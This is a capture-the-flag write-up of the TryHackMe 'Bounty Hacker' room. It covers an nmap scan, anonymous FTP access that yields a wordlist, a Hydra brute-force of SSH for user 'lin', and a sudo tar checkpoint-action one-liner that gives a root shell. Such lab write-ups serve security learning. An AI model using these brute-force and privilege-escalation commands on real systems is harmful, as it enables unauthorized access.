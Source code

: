 ```yaml
---
title : Bounty Hacker - Writeup
---
```


_**Jan 01, 2021**_

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker) Writeup

## Recon :

```
kali@kali:~$ nmap -sC -sV -Pn 10.10.100.236
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-03 13:19 EDT
Nmap scan report for 10.10.100.236
Host is up (0.60s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.3.179
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## FTP :

We noticed from the scan that `FTP` service is running, and `Anonymous login allowed` is enabled, So let's login and see what's inside :

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```
` locks.txt` contains a wordlist that can help us to get user access.
`task.txt` contains some task, wirtten by a user called `lin`.

So enough said. We have a user & a wordlist, Let's `HYDRA`.

## SSH Brute Forcing :

```
kali@kali:~$ hydra -l lin -P locks.txt ssh://10.10.100.236
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-03 13:57:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.100.236:22/
[22][ssh] host: 10.10.100.236   login: lin   password: ******************
```

Nice. Now let's login with those creds!

## Privilege Escalation :

Enumerating manually we got something intresting, this user can run `/bin/tar` with root permission.

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
I went straight to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and grabbed this one liner :

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
```
And now we are `root`.

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n)
